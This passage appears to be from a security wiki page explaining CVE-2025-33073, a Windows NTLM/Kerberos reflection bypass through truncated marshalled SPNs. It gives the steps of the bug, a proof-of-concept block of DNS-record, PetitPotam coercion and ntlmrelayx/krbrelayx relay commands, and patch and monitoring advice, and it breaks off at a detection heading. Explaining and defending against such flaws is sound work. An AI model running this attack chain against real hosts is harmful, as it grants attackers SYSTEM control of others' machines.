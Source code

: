 Windows contains several mitigations that try to prevent _reflection_ attacks where an NTLM (or Kerberos) authentication that originates from a host is relayed back to the **same** host to gain SYSTEM privileges.

Microsoft broke most public chains with MS08-068 (SMB→SMB), MS09-013 (HTTP→SMB), MS15-076 (DCOM→DCOM) and later patches, however **CVE-2025-33073** shows that the protections can still be bypassed by abusing how the **SMB client truncates Service Principal Names (SPNs)** that contain _marshalled_ (serialized) target-info.

### TL;DR of the bug

1. An attacker registers a **DNS A-record** whose label encodes a marshalled SPN – e.g. `srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA → 10.10.10.50`
2. The victim is coerced to authenticate to that hostname (PetitPotam, DFSCoerce, etc.).
3. When the SMB client passes the target string `cifs/srv11UWhRCAAAAA…` to `lsasrv!LsapCheckMarshalledTargetInfo`, the call to `CredUnmarshalTargetInfo` **strips** the serialized blob, leaving **`cifs/srv1`**.
4. `msv1_0!SspIsTargetLocalhost` (or the Kerberos equivalent) now considers the target to be _localhost_ because the short host part matches the computer name (`SRV1`).
5. Consequently, the server sets `NTLMSSP_NEGOTIATE_LOCAL_CALL` and injects **LSASS’ SYSTEM access-token** into the context (for Kerberos a SYSTEM-marked subsession key is created).
6. Relaying that authentication with `ntlmrelayx.py` **or** `krbrelayx.py` gives full SYSTEM rights on the same host.

### Quick PoC

```bash
# Add malicious DNS record
dnstool.py -u 'DOMAIN\\user' -p 'pass' 10.10.10.1 \
          -a add -r srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA \
          -d 10.10.10.50

# Trigger authentication
PetitPotam.py -u user -p pass -d DOMAIN \
             srv11UWhRCAAAAAAAAAAAAAAAAA… TARGET.DOMAIN.LOCAL

# Relay listener (NTLM)
ntlmrelayx.py -t TARGET.DOMAIN.LOCAL -smb2support

# Relay listener (Kerberos) – remove NTLM mechType first
krbrelayx.py -t TARGET.DOMAIN.LOCAL -smb2support
```

### Patch & Mitigations

* KB patch for **CVE-2025-33073** adds a check in `mrxsmb.sys::SmbCeCreateSrvCall` that blocks any SMB connection whose target contains marshalled info (`CredUnmarshalTargetInfo` ≠ `STATUS_INVALID_PARAMETER`).
* Enforce **SMB signing** to prevent reflection even on unpatched hosts.
* Monitor DNS records resembling `*<base64>...*` and block coercion vectors (PetitPotam, DFSCoerce, AuthIP...).

### Detection ideas
